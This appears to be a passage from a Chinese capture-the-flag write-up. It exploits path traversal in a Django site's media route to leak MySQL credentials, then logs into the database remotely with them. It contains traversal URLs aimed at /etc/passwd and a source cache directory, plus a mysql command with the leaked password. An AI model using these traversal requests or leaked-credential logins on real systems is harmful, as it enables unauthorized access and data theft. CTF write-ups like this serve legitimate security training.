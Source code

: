 于是想到python的经典问题：目录穿越

于是试了一下

http://118.89.230.52:8000/../../../../../etc/passwd

得到

Using the URLconf defined in minicms.urls, Django tried these URL patterns, in this order:

^$

^news/

^admin/

^media\/(?P<path>.*)$

The current path, etc/passwd, didn't match any of these.

发现media可以用，于是

http://118.89.230.52:8000/media/..%2f__pycache__/

可以得到关键信息泄露

MYSQL_DB

'djangodb'

MYSQL_HOST

'mysql'

MYSQL_PASSWORD

'Fl4g_1s_n0T_H3re_But_C10se'

MYSQL_PORT

'3306'

MYSQL_USER

'manage'

于是我们远程连接Mysql

mysql -h 118.89.230.52 -P 3306 -u manage -pFl4g_1s_n0T_H3re_But_C10se

成功连接上后，先看数据库

![](img/bbed2c35e59694eb730254d01872ccc5.png)

发现F1agIsHere数据库

